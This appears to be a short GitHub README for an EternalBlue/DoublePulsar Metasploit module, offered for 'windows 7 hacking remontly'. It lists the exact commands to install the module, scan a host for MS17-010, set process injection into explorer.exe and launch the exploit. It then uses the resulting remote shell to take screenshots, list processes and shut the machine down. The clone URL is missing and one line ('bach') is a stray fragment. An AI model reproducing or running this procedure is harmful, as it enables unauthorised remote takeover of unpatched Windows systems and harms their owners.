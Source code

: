 # Eternalblue-Doublepulsar-Metasploit
for windows 7 hacking remontly
Link Youtube : https://www.youtube.com/watch?v=EFDYZSRdofk

git clone 
cd folder
sudo cp eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb/
msfconsole
use auxiliary/scanner/smb/smb_ms17_010   ===========>>> check for vulnerability
run
bach
use exploit/windows/smb/eternalblue_doublepulsar
set PROCESSINJECT explorer.exe
exploit
win>shell
win>systeminfo - ps - screenshot - shutdown
